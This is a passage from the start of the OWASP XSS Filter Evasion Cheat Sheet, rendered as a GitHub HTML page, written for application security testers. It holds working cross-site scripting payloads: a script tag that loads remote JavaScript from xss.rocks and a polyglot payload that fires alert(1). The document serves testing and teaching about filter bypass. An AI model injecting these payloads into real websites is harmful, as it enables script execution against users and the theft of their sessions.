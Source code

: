 





<!DOCTYPE html>
<html lang="en">
  <head>
   
  </head>

  <body class="logged-out env-production page-responsive page-blob">
    

  


<h1><a id="user-content-introduction" class="anchor" aria-hidden="true" href="#introduction"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Introduction</h1>
<p>This article is focused on providing application security testing professionals with a guide to assist in Cross Site Scripting testing. The initial contents of this article were donated to OWASP by RSnake, from his seminal XSS Cheat Sheet, which was at: <code>http://ha.ckers.org/xss.html</code>. That site now redirects to its new home here, where we plan to maintain and enhance it. The very first OWASP Prevention Cheat Sheet, the <a href="https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html" rel="nofollow">Cross Site Scripting Prevention Cheat Sheet</a>, was inspired by RSnake's XSS Cheat Sheet, so we can thank him for our inspiration. We wanted to create short, simple guidelines that developers could follow to prevent XSS, rather than simply telling developers to build apps that could protect against all the fancy tricks specified in rather complex attack cheat sheet, and so the <a href="https://owasp.org/www-project-cheat-sheets/" rel="nofollow">OWASP Cheat Sheet Series</a> was born.</p>
<h1><a id="user-content-tests" class="anchor" aria-hidden="true" href="#tests"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Tests</h1>
<p>This cheat sheet lists a series of XSS attacks that can be used to bypass certain XSS defensive filters. Please note that input filtering is an incomplete defense for XSS which these tests can be used to illustrate.</p>
<h2><a id="user-content-basic-xss-test-without-filter-evasion" class="anchor" aria-hidden="true" href="#basic-xss-test-without-filter-evasion"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Basic XSS Test Without Filter Evasion</h2>
<p>This is a normal XSS JavaScript injection, and most likely to get caught but I suggest trying it first (the quotes are not required in any modern browser so they are omitted here):</p>
<pre><code>&lt;SCRIPT SRC=http://xss.rocks/xss.js&gt;&lt;/SCRIPT&gt;
</code></pre>
<h2><a id="user-content-xss-locator-polygot" class="anchor" aria-hidden="true" href="#xss-locator-polygot"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>XSS Locator (Polygot)</h2>
<p>The following is a "polygot test XSS payload." This test will execute in multiple contexts including html, script string, js and url. Thank you to <a href="https://twitter.com/garethheyes" rel="nofollow">Gareth Heyes</a> for this <a href="https://twitter.com/garethheyes/status/997466212190781445" rel="nofollow">contribution</a>.</p>
<pre><code>javascript:/*--&gt;&lt;/title&gt;&lt;/style&gt;&lt;/textarea&gt;&lt;/script&gt;&lt;/xmp&gt;&lt;svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'&gt;
